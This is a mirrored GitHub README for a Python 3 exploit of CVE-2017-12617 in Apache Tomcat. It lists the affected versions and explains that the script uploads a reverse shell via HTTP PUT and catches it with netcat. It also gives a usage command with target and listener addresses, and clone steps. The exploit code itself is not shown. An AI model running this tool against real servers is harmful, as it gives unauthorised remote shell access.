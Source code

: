 # CVE-2017-12617

CVE-2017-12617 is a critical vulnerability leading to Remote Code Execution (RCE) in Apache Tomcat.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/LongWayHomie](https://github.com/LongWayHomie) |
| Url      | [https://github.com/LongWayHomie/CVE-2017-12617](https://github.com/LongWayHomie/CVE-2017-12617)                                               |
| Stars    | 0                                                          |
| License  | The Unlicense                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2017-12617

CVE-2017-12617 is a critical vulnerability leading to Remote Code Execution (RCE) in Apache Tomcat.</br>
This vulnerability works on versions 9.0.0.M1 - 9.0.0, 8.5.0-8.5.22, 8.0.0.RC1 - 8.0.46, 7.0.0 - 7.0.81.</br>
Tested only on 8.0.24. Vulnerability uses misconfigured PUT option on the application or Tomcat instance itself.</br>
It uses PUT to send reverse shell payload to the server and execute it, while listening with netcat. </br>

Since there are many versions of the same exploit in the Internet but based on python2, I have rewrote it to work with Python 3.</br>
Have foon.</br></br>

Usage example:
`python3 cve-2017-12617.py -t 127.0.0.1 -p 8888 -l 192.168.1.118 -P 5555`

![Screen](img.PNG)





## Get the content

```
git clone https://github.com/LongWayHomie/CVE-2017-12617
cd CVE-2017-12617
```

{% embed url="https://github.com/LongWayHomie/CVE-2017-12617" %}

<figure><img src="https://avatars.githubusercontent.com/u/63229183?v=4" alt=""><figcaption><p>LongWayHomie</p></figcaption></figure>
